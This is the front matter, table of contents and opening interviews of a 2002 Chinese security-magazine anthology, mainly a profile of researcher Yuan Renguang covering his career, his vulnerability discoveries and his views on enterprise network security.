# 黑客防线2002精华本（上）

---

## 黑客防线 精华本 2002（上册）

http://www.hacker.com.cn

## 双光盘

- 超值：60元《黑客防线》原创全程攻防录像演示
- 赠送：2001年《黑客防线》精华本的电子版

### 栏目设置
- 名家专访、专题综述、系统安全
- 服务器安全、数据库安全、网站安全
- 网管之家、编程解析、安全方案
- 经验交流、病毒前线、拒绝服务
- QQ专栏、恶意攻击防范、案例分析
- 攻防工具、上网技巧、读者三叶

人民邮电出版社
POSTS & TELECOMMUNICATIONS PRESS

---

# 黑客防线精华本 2002（上册）

《黑客防线》编辑部 编
人民邮电出版社

---

## 图书在版编目（CIP）数据

《黑客防线》精华本. 2002 / 《黑客防线》编辑部编. 北京：人民邮电出版社，2003.2
ISBN 7-115-10806-4

1. 黑... 2. 黑... 3. 计算机网络—安全技术 4. TP393.08
中国版本图书馆 CIP 数据核字（2003）第000465号

## 内容提要

《黑客防线》是一本网络及计算机安全普及性电子媒体，致力于中国网络安全和计算机安全事业，从创刊至今，深受读者喜爱，发行量直线上升，呈良性发展趋势，在业界和网络安全界影响较大，深受读者关注。

《黑客防线》精华本由《黑客防线》2002年全年内容浓缩而成，经过编辑重新加工，按照文章内容和梯度进行了详细分类；全书内容通俗易懂，涵盖面广，突出实用，更加便于读者阅读、学习和研究。书中重点涉及了人物、专题、系统安全、服务器安全、数据库安全、网站安全、网管心得、案例、编程、工具、破解、病毒分析、网友交流等20个方面。

本书附赠2张配套光盘。光盘中包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文档、系统最新补丁；更有价值的是收录了《黑客防线》原创全程攻防录像演示和2001年《黑客防线》精华本的电子版。

## 出版发行信息

| 项目 | 内容 |
| :--- | :--- |
| 编者 | 《黑客防线》编辑部 |
| 责任编辑 | 魏雪萍 |
| 出版发行 | 人民邮电出版社（北京市崇文区夕照寺街14号A座，100061） |
| 读者热线 | (010) 62141445-8013 |
| 印刷 | 中煤涿州制图印刷厂 |
| 经销 | 全国各地新华书店 |
| 开本 | 787 × 1092 1/16 |
| 印张 | 36 |
| 字数 | 2800千字 |
| 版次 | 2003年2月第1版 |
| 印次 | 2003年2月北京第1次印刷 |
| ISBN | 7-115-10806-4/TP·3185 |
| 定价 | 35.00元（上下册含2CD） |

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。联系电话：(010) 62141445-8011 E-mail：yougoubu@hacker.com.cn 图文版权所有，未经同意不得转载、翻印。

---

## 目录

## 一、名家专访
- 1. 走近袁哥——访中联绿盟信息技术有限公司袁仁广 …… 1
- 2. “Warning3”——网络安全的警示者访中联绿盟信息技术公司左磊 …… 7
- 3. 小四的故事——访中联绿盟信息技术公司陈戈 …… 12
- 4. 永远的“冰河”——访著名软件“冰河”的开发者黄鑫 …… 17
- 5. “鹰”之路——访著名 Linux 内核程序员大鹰 …… 22
- 6. 十年程序苦旅——记安天系统程序员张粟伟 …… 25

## 二、专题综述
- 1. 共享上网——认识、掌握、软件应用 …… 27
- 2. 实战 Web Server …… 38
- 3. Sniffer 原理及攻击实例 …… 52

## 三、系统安全
- 1. 注册表全攻略 …… 60
- 2. 妙改注册表让系统更安全 …… 65
- 3. Windows 2000 Server 系统加固不完全指南 …… 69
- 4. 如何使你的 Windows XP Professional 更安全 …… 76
- 5. 禁止 Windows 自带 tftp 客户端的使用 …… 84
- 6. 通过配置本地策略来禁止 139/445 端口的连接 …… 85
- 7. 对 Windows XP 启动故障的诊断 …… 89
- 8. 在 Windows XP Professional 下如何建立文件审核 …… 91

## 四、服务器安全
- 1. Imail 的迁移与群件 …… 94
- 2. Webmail 攻防实战 …… 95
- 3. 量身定做邮件服务器 …… 104
- 4. 给 iMail 7.X 设计邮箱申请页面和汉化 Web 界面 …… 118

## 五、数据库安全
- 1. 保护数据库服务器加强数据库安全 …… 123
- 2. 深入探索 MS SQL Server 2000 网络连接的安全问题 …… 125
- 3. 项目开发中 SQL Server 的安全性应用 …… 127
- 4. SQL Server 的安全配置 …… 135
- 5. SQL Server 安全规划全攻略 …… 138

## 六、网站安全
- 1. 有关翔港论坛等多个基于 ASP 的论坛存在的严重安全问题 …… 142
- 2. 对动网先锋 ASP 论坛的安全性分析 …… 144
- 3. LB5K 安全性分析 …… 146
- 4. 窥探 YUZI 的 BBS3000 社区安全性 …… 148
- 5. UT（UltraThreads v5.07）论坛漏洞分析 …… 152
- 6. 跨站脚本执行漏洞详解 …… 154
- 7. 跨站脚本执行漏洞（续） …… 157
- 8. 如何对 PHP 程序中的常见漏洞进行攻击 …… 159
- 9. 导致 PHP 程序安全问题的错误案例 …… 165
- 10. 浅谈网站文件的管理 …… 167
- 11. 一次虚拟的安全检测及修复方法 …… 168

## 七、网管之家
- 1. Windows 2000的远程管理技巧 …… 174
- 2. Windows 2000下进程的观察与常规进程描述 …… 176
- 3. Windows 2000安全小窍门 …… 179
- 4. Windows XP的漏洞显“眼”防范有“巧” …… 181
- 5. 命令行下配置Windows 2000的NAT功能 …… 185
- 6. 利用Windows 2000下的NAT协议实现内外网互访 …… 187
- 7. 发挥日志的功用 …… 191
- 8. IIS5.0的安全管理 …… 193
- 9. 用SSL给IIS的信息传递加把锁 …… 197
- 10. 修改IIS的Banner实现操作系统版本的隐藏 …… 201
- 11. 用SSL构建一个安全的Apache …… 203
- 12. 构建一个基于SSL的安全Web网站 …… 204
- 13. 用SSH建立安全网络通道 …… 206
- 14. 在FreeBSD之间建立IPSec隧道 …… 210
- 15. 利用FreeBSD组建安全的网关 …… 212
- 16. 硬盘的逻辑结构与磁数据恢复技术 …… 215
- 17. 攻击也有指纹——对80端口攻击的指纹识别 …… 219
- 18. 邮件型病毒防范守则 …… 223
- 19. 防止内部IP地址泄露的2种方法 …… 228

## 八、编程解析
- 1. 永远不被查杀的木马——特洛伊木马程序的开发思路解析 …… 230
- 2. 一个简单木马程序的编写与伪装策略解析 …… 232
- 3. 文件关联型木马的编程思路解析 …… 237
- 4. 木马，是如何隐藏通讯方式的解析 …… 239
- 5. Windows 2000下三无后门的实现解析 …… 242
- 6. 用C#实现木马程序解析 …… 247
- 7. 用C#实现网段扫描解析 …… 252
- 8. Socket编程的基础和基本过程解析 …… 254
- 9. 构造自己的数据包发送数据解析 …… 257
- 10. 通过编程实现对目标主机的简单探测解析 …… 260
- 11. 打造自己的反跟踪程序解析 …… 266

## 九、安全方案
- 1. 某省国税构筑安全网络成功方案 …… 268
- 2. 如何使用FreeBSD防火墙保护企业网络 …… 271
- 3. 校园网中网络安全技术的应用 …… 273
- 4. 用Cisco边界路由器防护DoS攻击 …… 277
- 5. 你的Cisco可以阻止“红色代码”吗 …… 279
- 6. 利用漏洞资料库帮你完成评估工作 …… 283

---

### 走近袁哥
本刊记者／秦丁可

#### 访中联绿盟信息技术公司袁仁广

这也是为何“成名”数年来他绝少与各类媒体接触的重要原因之一。难得的是我们终于通过努力得到了采访他的机会，希望在此为读者展示袁哥的一个真实侧面。

#### 初见其人

一个在中国网络安全界内无人不知的名字，一个在谈到与中国黑客相关话题时“点击率”极高的“关键词”，公认的中国网络安全及黑客界最高层次技术精英的代表之一，为国内网络安全技术发展做出重要贡献的关键人物，微软 Windows 系统底层分析发现 Windows 9x 共享密码、IIS 等系统漏洞第一人，所有这些冗长的“定语”都为修饰同一个“主语”：袁哥！

袁哥真的很出名，知道其本名“袁仁广”的人不很多，但一提“袁哥”在圈内快应了那句广告词儿：“地球人都知道！”，在网上任何一个中文搜索引擎敲入“袁哥”二字，就会有上千个相关链接。在网络安全与黑客的社会知名度越来越高的今天，这种出名还表现在圈外人对他的认知，很多人对网络安全很外行，但知道有“袁哥”这么一个“牛人”，正如从未上过网的人对互联网的认知，人们通过一些传统媒体的相关报道知道了 2000 年夏天那次中国黑客首度大聚首，也或多或少记住了袁哥的名字。或许社会上太多构建在炒作、包装之上的“成名”令人们开始习惯对一切名誉光环中极易蒸发的水分产生“盛名之下难符其实”的本能怀疑，但袁哥的“成名”却是一个无心插柳柳成荫的自然过程，很大程度上缘于伴随互联网而兴起的网络安全技术的发展，所谓“时事造英雄”，在袁哥与网络安全技术的关系上是又一个集中体现。这种“成名”也是因人们对科学攻关与技术钻研者的敬佩心理而自发树立与传播的结果，而不是“成名”者的本意，诚如袁哥在接受我们采访时所说，我过去、现在和将来都只为个人兴趣而从事这份工作，对成名我从不看重，更不是我努力的初衷。

四月底一个春风和煦下午，我按约来到位于京西北三环路比邻香格里拉饭店的益泰大厦，在这个较众多京城高档写字楼很不起眼儿的建筑物的五层，却进驻了一家全国网络安全最起眼的企业，那就是中联绿盟。说到袁哥就不能不提一句中联绿盟，可以说，2000 年袁哥的加盟，令绿盟如虎添翼，实力大增，而绿盟亦给了袁哥在网络安全技术领域一展才华的宽阔舞台。

步入绿盟的办公区，所看到的室内装修、陈设与办公设备如普通公司一样并无特别，惟有满目的绿色提示着企业文化的主题。

负责此次采访联络工作的市场部盛男小姐见到笔者后一边热情寒暄让座一边拿起电话通知袁哥出来接受采访，在盛小姐去为笔者倒水的片刻，一位身材不高且较胖的男士由一间办公室走出，从笔者所在办公隔板旁的走廊经过，我们双方的目光随意瞬间交错后都自然地移开，我完全没有意识到此人与我今天来这的目的有任何关系，直到片刻后盛小姐对着折返回来再次略过这里的他叫道“袁哥！”，我愣了一下后才反应过来，他就是今天的主角，握手的时候我不再怀疑。我真的见到了袁哥！袁哥个头不高，较胖，发型随意，浓眉大眼，肤色微重，一件天蓝色衬衫，一条深蓝色西裤，质地都极普通，我特别注意到他腰间那条有点“爆皮”的皮带，很陈旧的样子，让人感到他对穿着的极端随意，沉稳凝重的神态与思辨机敏的目光，使他整体上看去要比实际年龄成熟许多。短短几句寒暄，他带有浓重川味的普通话平易中透着朴实。盛小姐将我们让到一个小会议室，蓝色的四壁与办公家具凭添了一种静谧安详的交流氛围。落座后，我按下数字采访机的录音按键，开始了与这位网络安全奇才的对话。

#### 用“反汇编”解读事业成功的“代码”

话题很自然地从袁哥网络安全技术的最初入门开始，袁哥至今认为，中学时代自己对数学的着迷与投入炼就了自己严谨缜密的逻辑推理和分析能力，进入大学后，在以汇编语言为主的计算机系统底层学习钻研的经历又为他今后在包括网络安全在内的众多计算机技术研究打下了坚实的知识基础。

“刚上大学时，还没有机会接触网络，但那时就对单机上的电脑病毒和加解密技术产生了强烈的学习研究兴趣，掌握了相当的汇编语言能力后，我就常找来一些当时流行的病毒，把它们的源代码反汇编出来逐行研究，甚至还包括一些防毒卡的加解密原理，我都想搞个清楚，事实上直到我现在做的这些分析 Windows 下系统漏洞的工作，用的还是这套基本功，就是要阅读和分析源代码！说起来好像挺简单，但实际上这对分析者阅读及分析代码的能力要求非常非常高！为什么有些技术人员虽然也具备一定的汇编语言能力，但分析起来仍感吃力，说明这种阅读分析能力还是不够熟！因为代码量非常之大，有时表面看去很小的程序反汇编出来的代码量仍很可观，如果阅读代码能力强，便可在短时间看一遍后迅速搞清程序结构与编程设计思路，预感到有可能出现问题的地方，从而重点地去分析这些地方的代码。数学对锻炼我全面严谨的思维方式帮助很大，因为分析漏洞是个要求很细致和全面的工作，考虑问题一定要细，要全面，别人没想到的，你要想到，别人容易忽略的你不能忽略掉，这样漏洞才会被你而不是别人发现，或根本谁都没发现。现在回想起在学校那段经历也觉得挺不容易，那时因条件限制上机机会少得可怜，上机时反汇编出来的代码不可能当场分析出来，也没有打印条件，只好一行行抄在本子上拿回宿舍细读，这一抄就是成百上千行，老实讲大学四年我的大部分时间都用在学计算机上了，大学课程没太认真投入地学，这也是没办法，这并不是说我认为大学课程全不重要，我觉得一些重要的基础理论知识还是应该认真掌握的。”

“但说起这个话题有一点让我对大学教育感到很失望，这个阶段本应该是鼓励和培养学生从兴趣出发的主动自学能力，这样对开发学生的创新能力很有好处，也为以后工作打下好的思维方式的基础，而事实上中国的高校教育还停留在学生被迫去上课学很多自己不感兴趣的东西的状态，这种照本宣科的教学方式真的效果有限，可以讲我对大学上课四年最深的印象就是老师上面讲，学生下面睡觉。”

我可以想见大学时代袁哥的样子，一个表面上再普通不过的理工科学生，在学习条件远不及计算机专业学生的情况下倾注了全部精力醉心于计算机知识研读，可能在本专业课老师的眼中这是一个“不务正业”的学生，但是现在看来，如果他是个很“本分”的好学生，那也许在母校不计其数的优等生中又多了无足轻重的一员，但今天的中国网络安全界却少了一个叱咤风云的专业奇才！

微软 Windows 共享及 IIS 系统漏洞是袁哥的“成名作”，谈及发现过程，他的语气依旧平静，毫无一点兴奋，更不要说得意了，像是在谈论别人的事情。

“刚到公司（绿盟）时因为我们的定位就是要做服务，所以就意识到必须要对系统安全配置以及漏洞十分地熟悉和掌握，大家就根据自己的特长选题入手分析研究，我个人觉得自己对看代码和反跟踪比较熟，逆向分析有一定能力，就先选了 IIS，看它的安全性，如果发现问题就可有针对性地补漏洞，当时是 2000 年，分析了几个月后就发现了这些结构和配置上的问题，那时是在 Windows NT 4.0 下的 IIS 4.0，还没有现在 Windows 2000 及 IIS 5.0 应用这么广泛。”

我没想到他在说这件事时话这么简短且没有任何评论，说得就像普通网友在网上论坛发个帖子那么简单和随意，这个令世界软件巨人微软吃惊与汗颜继而帮助无数企业和个人用户避免重大网络安全隐患的技术发现就这样被发现者自己轻描淡写地一笔带过了。袁哥就是这样一个不太喜欢评价他人与讲述自己的人。作为访谈对象，他令采访者感到有些“难度”，但有“难度”话题也得继续，因为对他的了解才刚刚开始。

“认准自己感兴趣的事然后尽自己最大的努力专心去做，就一定会有比较好的结果，而在选择和决定自己发展方向的时候最不好的就是盲目追赶潮流，现在时兴什么，大家都在做什么我也就跟着去做，或是出于一种很虚荣的目的去做，而不认真思考自己真正的兴趣与特长是什么，再缺乏必要的充分准备与知识积累，这样很难成功。比如我当初一点没有想到自己会在今天很热的网络安全领域从事研究，我只是从自己的兴趣出发去学习这些东西，而且，如果不是在校时对病毒、加解密感兴趣进而在汇编语言等系统底层知识上下大功夫，打下好的基础，就是赶上现在的机遇也没有能力胜任。所以，首先是自己喜欢的事情，也有一点能力，再努力去做了，就会有一个瓜熟蒂落的自然结果。”

#### 从痴迷数学到与网络安全结缘

上面说过，袁哥求知道路上的“初恋”是数学，如果不是因计算机而“移情别恋”，他的数学家之梦也许会有朝实现，至少可能会一直做下去。但计算机彻底改变了他的人生轨迹。对于由痴迷数学到醉心于计算机学习的“情变”过程，袁哥言语中多少流露出些许留恋与无奈。

“虽然一直喜爱数学，但渐渐地感到如果选择数学研究作为自己未来的发展方向，那将意味着终身从事一种基础理论的研究，也难免枯燥，如果不能有重大的研究成果和理论发现，那从某种角度上讲也意味着终生一事无成，还不如做些很具实用价值的工作，而恰在上高中时接触了苹果电脑，马上产生了浓厚的兴趣，并且计算机学习又最得益于数学的思辨方式，更重要的是我也感到了计算机科学未来广阔的发展前景，再加上感觉很有趣味性，于是转了过来。初次接触病毒感觉很神秘，就有强烈的想搞懂的愿望，这就要过第一道难关，那就是汇编语言，当时我读的计算数学系是不开这门课的，就只能自学，而自学对我来说已经习惯了，就像当年自学数学一样，而且两者也有很多相通的地方，一直以来，我对自己的自学能力还是挺有信心的，其实对于从事网络安全技术研究的人来说自学能力与上面提到的代码阅读能力、推理分析能力一样重要；特别是在没有先例与他人经验借鉴的时候，就尤为重要。”

本来我准备了一个这样的提问：“要在网络安全技术领域做出成绩，最应具备哪些素质与能力？”袁哥上述的话已清楚地做出了回答，简言之就是浓厚的兴趣加很强的自学能力以及不懈的努力，这对现在那些有着与当年的袁哥同样兴趣和志向的少年们是很好的启示与经验之谈。紧接上一个问题在谈到自己“成名”前后有无变化时袁哥提出了更为深刻的忠告：“我从来没觉得自己成了什么名！也就更谈不上有何影响，我的心态也没有发生任何变化，我觉得从事这项技术工作必须得能静下心来，老实讲专心看代码才可能有所收获，要耐得住寂寞，以我个人的体会觉得，一个人只要认准自己感兴趣的事然后尽自己最大的努力专心去做，就一定会有比较好的结果。”

#### 有关网络安全的个人看法

作为网络安全技术开发与服务企业的从业者，袁哥在绿盟这几年对国内企业的网络安全状况应该是很有发言权的：

“前两年企业用户可能从网络安全意识到技术上都比较薄弱吧，我们去给他们做项目的时候看到的情况基本都是系统设备刚买回来时的初始设置，几乎没做一点安全方面的配置修改，有的甚至连操作系统的补丁都不知道打，现在大家的网络安全意识普遍增强了，也知道关闭一些隐患明显的端口和服务，但是技术环节上还有很大的欠缺，相比较而言，国内较大的骨干网络或企业网络系统因有较一定的安全意识与技术能力，做得还是不错，配备有相当技术能力的专职网络管理员，也能经常关注类似绿盟这种专业公司网站上的‘系统漏洞公告’和安全配置方面的技术文章，再针对自身网络情况进行安全维护。现在看来意识是普遍有了，但企业网管的技术能力还急需大大地提高，目前高水平的人才比较缺乏，在这方面我们绿盟也尽企业所能做了很多客户培训与技术支持工作。大批的中小企业网络系统的安全状况更急需有大量的工作要做，可能企业出于成本考虑，不太舍得在网络安全方面增加投入，想在这方面省下点钱，但实际上到头来反而有点得不偿失，现在越来越多的企业决策者意识到网络安全方面的投入是非常必要的，说来这还是个观念问题。”

谈到企业网络安全问题的长久解决方案，袁哥又继续说道：“开始阶段如果单靠企业自身的能力……”构建较专业完善的安全体系不太现实，构建速度也会很慢，这时需要像绿盟这样专业的网络安全公司为其设计搭建一个基础解决方案平台，并负责一段时间的后续技术支持服务，但长远的网络安全工作还是必须依靠企业培养出自己的高水平技术人员。企业对于自身的网络安全建设千万不能有一次投入一笔钱全交由网络安全厂商包办的依赖感和一劳永逸的想法，网络安全不是买几套防火墙再做些系统安全配置就万事大吉的事情，网络安全是一个庞杂和永远动态变化着的系统工程，刚配置好的系统暂时可能是相对安全的，但随着软件升级、系统更新以及网络攻击手段的变化，新的安全隐患和系统漏洞还会显现，你又必须重新评估其安全可靠度，继而有针对性地重做安全配置，这也是计算机网络科学本身的规律决定的，完全依赖厂商和产品的结果就是忽视了人的关键作用，从而放弃了对人才的培养，这是要不得的，是完全错误的。企业一定要寻求一种整体的解决方案。

对于中国网络安全与西方发达国家的差距，袁哥个人认为总体上的差距还是有的，但也分具体领域。有些要求有基础积累与经验积累的领域，比如管理理念和法律法规建设，差距会大点，也是需要时间的；而对于一些具体安全技术本身差距虽有，但不大，赶上也快些、容易些。中国在人才资源上和个体能力水平上是从来不差的，就是一个如何充分开发和利用的问题，这牵扯到一些非技术性因素，包括管理体制问题。

### 袁哥与绿盟

袁哥与绿盟可谓分别是中国网络安全领域中优秀个体与强势集体的代表，两者的结合更让人有强强联手的夺人气势。那么袁哥加盟绿盟的前前后后自然也是令人关注的话题，回忆旧事，袁哥记忆犹新，娓娓道来：

> “1997年我大学毕业后分配到海信集团，具体工作是电视机单片编程，工作不是很忙，所以我业余时间就看一些自己感兴趣的操作系统的书籍，主要是微软的Windows系统。那时互联网也刚刚兴起，我不仅多了一个获取技术参考资料的手段，对互联网技术本身也产生了浓厚的兴趣，于是就开始学习分析TCP/IP这类的网络协议，看它的实现，再反汇编一些Windows下的程序来看来分析它。在分析代码的过程中就发现了一些漏洞，比如98年发现的Windows 9x共享密码漏洞，由此让我发现原本只为搞清代码内容的动机却无意中得到如此有趣的意外收获，感觉挺神奇，继而就想到自己是不是就试着向这方面发展。以后就特别关注互联网上这方面的东西，而在认识到这是一个很好的发展方向后就开始考虑专门从事这方面的工作了，但那时国内专业的网络安全公司还不多，所以经历了一段等待的过程。
>
> 到2000年时，我这种转行的愿望已非常的强烈和急切，于是2000年春节我在绿盟的网页上贴了一个自己想‘跳槽’的帖子，刚好被绿盟的沈总看到，他很快就给我打了一个长途，约我面谈一下。正好春节放假，我就来了北京，一来和他谈，二来也想实地看看公司环境，结果一谈感觉氛围很好。当时绿盟正是初创起步阶段，而发展定位正好与我的想法吻合，我就决定留下来了。在此前也曾与一位做杀毒软件的企业老总有过类似接触，但最终选择去了绿盟主要是看好公司的环境和发展前景，且更适合自己的兴趣和能力。现在看来当初的选择是明智正确的，绿盟今天的成绩说明这确是一个有技术实力和发展前途、经营管理与运作机制都很健康的公司。
>
> 来绿盟后我一直负责Windows下的安全研究，最初是IIS漏洞分析，然后就是别的一些系统服务和常用软件的漏洞研究。现在还准备就多年来分析查找漏洞的规律和经验进行一些归纳总结，并为实现一种利用计算机程序自动化查找分析系统漏洞的方法进行研发，比如用软件代替人眼和大脑进行一些代码的分析，这样就不会像自己当初看代码那样辛苦了。应该说绿盟在网络安全产品开发上与服务是并重的，二者也是相辅相成的。开发出了过硬的产品，才可以围绕产品更好地为客户服务。绿盟的网络入侵侦测系统(NIDS)、主机入侵侦测系统（HIDS）、远程安全评估系统(RSAS)、高性能防火墙(SFW)、抗拒绝服务产品(COLLAPSAR)、个人防火墙(GREENGUARD)都是比较优秀的网络安全产品。
>
> 绿盟在技术研发队伍的能力上也是有一定优势的，这也是得到圈内认可的，但我要强调的是这绝不是我个人或其他少数几个人的能力所能达到的，这需要公司所有人的智慧，我们是一个团队！现在计算机软件开发与技术研究早已告别个人英雄主义的时代，个人能力只有与团队其他成员的智慧很好地融合才能充分体现其价值，提升团队的整体竞争力；我总是爱说这句话：‘个人价值汇聚成团队价值后再平分下来要大于个人原有的价值，这里有一个无形的增值！’绿盟最吸引我的地方就是这里的工作氛围，很年轻很有朝气，没什么职务等级观念，大家工作中都很自然地保持着朋友般的融洽关系。现在人才流动很大，如果有公司找我去，薪金条件不会是我唯一或说最主要的考虑因素，我会很看重企业发展前景与自己发展空间，还有就是工作环境。现在在绿盟工作心情很舒畅，公司为了我能专心从事系统分析工作，很多甚至与技术相关的杂事儿都不让我来做，同事之间的工作配合也很默契，感觉自己在这里的事业发展还有很大空间。”

就在这次采访后的第三天，笔者在与一位网络安全界朋友聊天时还得知这样一件事：绿盟曾因一笔资金问题，连续三个月没发员工工资，但从袁哥这些技术骨干到其他普通员工竟无一人离开公司，绿盟的企业凝聚力可见一斑。

短短的一个多小时很快过去，我很清楚，繁重的研发任务不可能允许袁哥有太多的时间接受采访，所以也尽量缩短谈话时间。令我有点感动的是袁哥没有表现出丝毫倦怠敷衍，更没有抬腕看表这样的结束暗示，但我不得不在意犹未尽的不舍中终止了采访。与袁哥话别后步出会议室，扑面而来的又是办公区的满眼绿色，有人说绿色象征着生命和希望，绿色也是春天的主色调，那么绿色的绿盟无疑是承载着民族信息安全事业的希望在迎接IT业的春天吧。

### 袁哥印象

#### 采访札记

一个不懂网络安全技术的人与袁哥对话会很快感到无聊和尴尬，因为没有共同语言；一个很爱说话的人也会令袁哥感到不自在，因为古人云：君子敏于事，而讷于言。但袁哥说起话来思路如严谨的程序语句行般条理清晰，丝丝入扣。

重庆人爱“摆龙门阵”，爱吃“火锅”可谓全国闻名，但凡事都有例外，袁哥就是重庆人中的“另类”，不善辞令，性情内敛温和，浑身难觅重庆人的健谈与“麻、辣、烫”般的火爆，但他内在的坚毅执着与聪慧仍与巴蜀才俊的优秀基因一脉相承。

采访袁哥不是件很容易的事，这难度来自他内敛的个性，来自他不事张扬的做人原则。在网络安全技术的数字王国他才华横溢，晦涩古奥的程序代码在他智慧之光的“逐行扫描”中神秘全无。袁哥在所有知道他并敬佩他的人中很有传奇色彩，人们的无限想象力可以让这种传奇也无限，但当袁哥真的站在你面前，你会发现，原来这传奇只存在于袁哥那别人无法真正走进的思维空间与精神世界，其貌不扬、衣着随意、平易朴实才是一种看得见摸得着的真实。

袁哥平时的生活圈子很窄，盛誉之下始终保持低调，生活状态有点像一个“封闭式开发”任务中的程序员，除了袁哥的公司同事及技术圈里的好友，鲜有“外人”走近袁哥。通常只会在高水平网上技术论坛看到他的一些最新技术文章，袁哥的文章总是令人关注的，但这与名气无关。要知道，在高手云集、藏龙卧虎的网络安全界，绝少存在所谓“权威迷信”，相反，挑战权威却是圈内的普遍个性体现，袁哥文章永远是在“以理服人”。对很多普通的慕名者，袁哥更像是个“传说中的人物”，与偶像的距离使“传奇”越“传”越“奇”。其实走近袁哥你会发现，原来丰富内涵与平凡外表的反差会愈发彰显人的内在魅力。

从袁哥的平淡自述中，我可以想见他在计算机领域求知道路上的艰辛，在他人看来可能还充满了孤独寂寞，但我想袁哥自己一定不会觉得孤寂，因为这里有属于他的智力游戏，也有他释放才情的“系统平台”。

从上大学后首次离开山城，袁哥就如候鸟般开始了长距离迁徙。从重庆到济南“山大”上大学，毕业分配工作到青岛“海信”，直至跳槽到中联绿盟。交谈中，袁哥对自己这段不断北迁的漂泊经历颇有些慨叹与无奈，他坦言自己身为南方人至今仍不太适应北方的干燥多风的气候与生活环境，很想回到南方，并声明北京肯定是他北方工作城市的最后一站。但他承认，这里有他所钟爱的网络安全事业最好的发展环境，相比较起来，气候及生活环境真算不了什么，因为他生来就是对生活本身要求不高的人。投入地工作，简单地生活，这可能就是他基本的生存状态。

原本设计采访方案时不想涉及太多的技术内容，为的是希望使读者了解更多技术以外的袁哥。然而采访开始后就发现，要想和袁哥多聊一会儿，就得谈技术，于是就硬着头皮谈。谈论了很久技术后，我试着往一些轻松话题上转，问他的兴趣爱好，但一聊又发现，原来这个话题也轻松不了太久的时间，因为除了一种比较少见的名叫“够级”的扑克牌玩法，以及偶尔去一个山清水秀的地方休息休息，再没有吸引袁哥的所谓兴趣爱好了。常人眼里丰富多彩、目不暇接的娱乐活动，在袁哥看来无大兴趣，可能在袁哥的世界里，没有比计算机代码更能让他感到兴奋的东西了，好像他这类人的大脑生来就是为思考和运算而准备的。就连“够级”扑克牌这种非常讲究团队合作精神的休闲方式也与思考和运算相关，如果有一天这种思考和运算戛然而止，可能也就意味着智慧源泉的枯竭吧。

真会有这一天吗？不敢想象。如果真有这一天，他会如何重新安排自己的生活？回到生于斯长于斯的南国故乡？觅一处山清水秀、碧草如茵的所在遍历美景？这答案或者只存在于袁哥大脑的“底层代码”中，除了他自己，谁会有兴趣“反编译”一下呢？

哲人说：“我思故我在”，年轻的袁仁广就是这样一个闪耀着思辨之光的生命存在。

### 袁哥小传

- 网名：袁哥(yuange)
- 姓名：袁仁广
- 别名：大兔子(datuzi)
- 年龄：27岁
- 性别：男
- 籍贯：重庆市
- 1997年7月毕业于山东大学数学院计算数学及应用软件系。

#### 工作经历

- 1997年7月—2000年2月：青岛海信集团技术中心网络所任工程师。负责电视单片软件开发和内部网络管理。开发的1238系列彩电已经成为公司主力产品，实现了公司产品的全面更新换代。公司站点：http://www.hisense.com.cn。
- 2000年2月—至今：中联绿盟信息技术（北京）有限公司。负责Windows等操作系统的安全研究。公司站点：http://www.nsfocus.com。

#### 技术专长简述

袁哥有熟练的单片机开发经验且具相关硬件知识水平；精通汇编、C等各种编程语言，熟悉TCP/IP等各种协议，对Windows等操作系统及INTEL的CPU指令结构的研究也颇具功力；其理解力、洞察能力、软件跟踪调试能力与代码阅读分析能力极其出众，再兼具很强的自学能力，使其能很熟练地进行源代码、二进制代码的安全审核与分析；发现微软操作系统、Web服务器软件的许多严重漏洞，早期最著名的当属Windows 9x共享密码及IIS系统漏洞，亦使微软出台了相应的漏洞补丁；除此之外，病毒编写、防、杀等技术也是袁哥的强项。

#### 袁哥的主要研究成果

1. Absent Directory Browser Argument Vulnerability;
2. Share Level Password Vulnerability;
3. Web Server Folder Traversal Vulnerability;
4. Web Server File Request Parsing Vulnerability;
5. Microsoft IIS for Far East Editions File Disclosure Vulnerability;
6. Microsoft IIS CGI Filename Decode Error Vulnerability;
7. fp30reg.dll Buffer Overrun Vulnerability;
8. ssinc.dll Buffer Overrun Vulnerability;
9. WebDav Denial of service Vulnerability;
10. WebDav view the source code Vulnerability;
11. WebDav Buffer Overrun Vulnerability;
12. asp.dll Buffer Overrun Vulnerability;
13. shtml.dll view the source code Vulnerability;
14. the other Denial of service Vulnerability;
15. the other view the source code Vulnerability;
16. winlogon.exe Buffer Overrun Vulnerability;
17. the system api Buffer Overrun Vulnerability;
18. Windows kernel Buffer Overrun Vulnerability;
19. apache for win32 Search File Vulnerability;
20. apache for win32 Run Discretional Command Vulnerability;
21. php4.0 Buffer Overrun Vulnerability;
......

## "Warning3"——网络安全的喜乐者

#### 访中联绿盟信息技术公司左磊

本刊记者／秦丁可

| 左磊小传 |
|---|
| 左磊，男，27岁，中联绿盟信息（北京）技术有限公司研发部总监，CIW Web Security Professional 认证。资深网络安全研发功底，领导过多种国内外著名的安全产品的测试项目，领导过“冰之眼”入侵检测系统的开发工作，长期从事网络安全的深入研究，并著有大量网络安全专著。特别对基于 UNIX 操作系统的安全问题研究有着极深的造诣与丰富实践。“Solaris 2.6 NFS IPD CWD 用户名猜测漏洞”、“UNIX 系统 locale 格式字符串漏洞”、“Inews 缓冲区溢出漏洞”、“Cxterm 的漏洞”、“FreeBSD 内核溢出攻击”等大量 UNIX/Linux 系统安全问题的发现者，深谙各种黑客攻击手法以及防御手段，在对各种防火墙、入侵检测系统等安全产品的测试方面有丰富经验。 |

有点英文基础的人都知道“Warning”是“警告”的意思，而有点计算机网络安全基础的人也多数会知道“Warning3”是国内网络安全技术界顶级人物左磊的网名！

说起“Warning3”网名的来历，想必有一种凭借字面意思的揣度。“Warning”是“警告”，那加上 3 就该是“警告 3 次”了，所谓事不过三嘛，而这看似合理的分析经求证名字主人后才知完全是种不明就里的想当然，其实此名的妙处不在“Warning”而在其后那个不起眼的“3”。

